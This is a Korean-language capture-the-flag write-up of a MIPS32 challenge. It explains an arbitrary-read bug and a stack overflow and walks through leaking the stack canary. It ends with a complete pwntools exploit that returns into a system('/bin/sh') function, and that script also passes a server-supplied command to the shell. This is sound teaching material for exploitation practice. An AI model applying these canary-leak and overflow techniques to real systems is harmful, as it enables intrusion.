

# MIPS

## 보호 기법



MIPS 32 아키텍쳐이고, stack canary가 활성화되어 있다.

## 코드 분석

MIPS Assembly를 유사 C코드로 변환한 결과이다.

```c
int count = 0;

// fp: stack frame pointer
void run() {
		char name[]; // fp + 0x2c
		int cmd; // fp + 0x20
		unsigned int value; // fp + 0x1c
		
		[...]
		
		while (1) {
				print_menu();
				cmd = get_cmd();
				
				switch(cmd) {
				case 1:
						if (count < 2) {
								count++;
								printf("Enter the address to read from: ");
								scanf("0x%x", &value);
								getchar();
								printf("0x%x\n", value); // AAR
						}
						else {
								puts("You have already read memory twice.");
						}
						break;
				case 2:
						puts("Enter your name:");
						fgets(name, 0x30, stdin); // BOF
						goto out;
						break;
				default:
						puts("Invalid choice. Try again.");
				}
		}
		
out:
		// stack canary check
}
```

`case 1`에 의해 총 2번의 AAR이 가능하고, `case 2`에 의해 BOF가 발생하게 된다.

stack canary check 부분의 assembly를 살펴보면 다음과 같다.

```nasm
00400d04:	lw $2,-32688($28)       ; $2 = __stack_chk_guard
00400d08:	lw $3,60($30)           ; stack canary = [fp + 0x3c]
00400d0c:	lw $2,0($2)             ; master_canary = [__stack_chk_guard]
00400d10:	beq $3,$2,0x400d58      ; branch if stack_canary == master_canary
00400d14:	sll $0,$0,0x0
00400d18:	beq $0,$0,0x400d48      ; branch if stack canary CORRUPTED
00400d1c:	sll $0,$0,0x0

[...]

00400d48:	lw $2,-32700($28)
00400d4c:	or $25,$2,$0
00400d50:	jalr $31,$25            ; __stack_chk_fail();
00400d54:	sll $0,$0,0x0
00400d58:	or $29,$30,$0
00400d5c:	lw $31,68($29)          ; ret addr = [fp + 0x44]
00400d60:	lw $30,64($29)          
00400d64:	addiu $29,$29,72
00400d68:	jr $31
```

- master canary값은 [__stack_chk_guard] 에 저장되어 있으므로, 2번의 AAR을 통해 값을 읽어올 수 있다.
- stack canary는 [fp + 0x3c] 에 위치해 있고, return address는 [fp + 0x44]에 위치해 있으므로, canary leak 이후 BOF를 통해 원하는 주소로 return 가능하다.

0x400964의 함수는 `system("/bin/sh")`를 호출하므로, return address를 0x400964로 설정하면 된다.

## 익스플로잇 코드

```python
from pwn import *
import subprocess

# r = remote("127.0.0.1", 5003)
r = remote("mips.chal.cyberjousting.com", 1357)

r.recvline()

cmd = r.recvline()
output = subprocess.check_output(cmd.decode(), shell=True)
r.sendafter(b"solution: ", output)

def menu(cmd):
    r.sendlineafter(b"> ", str(cmd).encode())
    
def read_memory(addr):
    menu(1)
    r.sendlineafter(b"from: ", hex(addr).encode())

def enter_name(name):
    menu(2)
    r.sendafter(b"name:", name)
    
read_memory(0x420060)
canary_addr = int(r.recvline()[:-1], 16)

read_memory(canary_addr)
canary = int(r.recvline()[:-1], 16)

enter_name(b"A" * 0x10 + p32(canary) + b"A" * 4 + p32(0x400964))

r.interactive()
```